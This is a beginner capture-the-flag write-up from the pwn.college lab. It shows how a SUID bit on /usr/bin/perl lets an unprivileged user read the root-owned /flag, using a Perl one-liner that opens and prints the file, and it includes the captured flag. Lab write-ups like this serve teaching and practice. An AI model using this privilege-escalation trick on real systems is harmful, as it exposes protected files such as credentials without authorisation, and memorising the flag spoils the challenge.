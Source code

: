 # Challenge Name: perl
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/perl`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/perl
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/perl
```

- The `s` in `-rws` indicates it's a SUID binary.
- `perl` runs with **root privileges**.

## 🚀 Exploitation

The `perl` command runs Perl scripts — a powerful language used for text processing, scripting, automation.
We can simple create a peral based file reader to read contents of /flag.

```bash
perl -e 'open(F,"/flag"); print <F>; close F;'
```

Output:
```
pwn.college{YycVFpdHZT30LHkl6N9QDYFHWnk.dNDOxwSM0IzMyEzW}
```
